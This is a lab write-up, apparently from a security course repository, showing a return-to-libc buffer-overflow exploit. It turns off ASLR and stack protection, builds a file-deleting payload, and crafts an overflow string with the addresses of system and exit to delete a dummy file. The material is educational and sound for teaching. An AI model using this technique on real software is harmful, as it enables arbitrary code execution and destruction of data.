 # Exploit return-to-lib-c vulnerability, delete file "dummy" in directory /tmp/dummy using environment variable

Build image 
- `docker build -t img4lab .`
- `docker run -it --privileged -v C:/Users/Admin/seclabs:/home/seed/seclabs img4lab`

vuln.c
![Picture about vuln.c](/Chapter-2/imgs/Lab3/vuln.png)
- Compile `gcc vuln.c -o vuln.out -fno-stack-protector -mpreferred-stack-boundary=2`

Before doing this lab, we have to turn off ASLR (Address Space Layout Randomization) `sudo sysctl -w kernel.randomize_va_space=0`
![Picture about ASLR](/Chapter-2/imgs/Lab3/turn-off-random-address.png)

Now we create an environment variable in Linux with the path of file `file_del`
![Picture about creating env var](/Chapter-2/imgs/Lab3/create-env.png)
- `nasm -g -f elf file_del.asm`
- `ld -m elf_i386 -o file_del file_del.o`
- `pwd` -> `/home/seed/seclabs/bof`
- `export exploit_path="/home/seed/seclabs/bof/file_del`

Based on `env`, we know that we successfully create env var
![Picture about checking env var](/Chapter-2/imgs/Lab3/check-env.png)

Look at the stack frame
![Picture about stack frame](/Chapter-2/imgs/Lab3/Stack-Frame.png)

If we want to exploit
- 68 bytes to overwrite buf and ebp
- 4 bytes to overwrite ret addr of vuln with the address of system
- 4 bytes for the address of exit
- 4 bytes for argument of system (exploit path that we created before)

We use gdb to get address of them
- Start the program before finding
![Picture about finding address](/Chapter-2/imgs/Lab3/gdb-address.png)
- `0xf7e50db0` -> `\xb0\x0d\xe5\xf7`
- `0xf7e449e0` -> `\xe0\x49\xe4\xf7`
- `0xffffdf72` -> `\x72\xdf\xff\xff`

Therefore, the final command is `r $(python -c "print(68*'a' + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' + '\x72\xdf\xff\xff')")`

After running this command, we successfully execute `file_del` and delete `dummyfile`
![Picture about result](/Chapter-2/imgs/Lab3/result.png)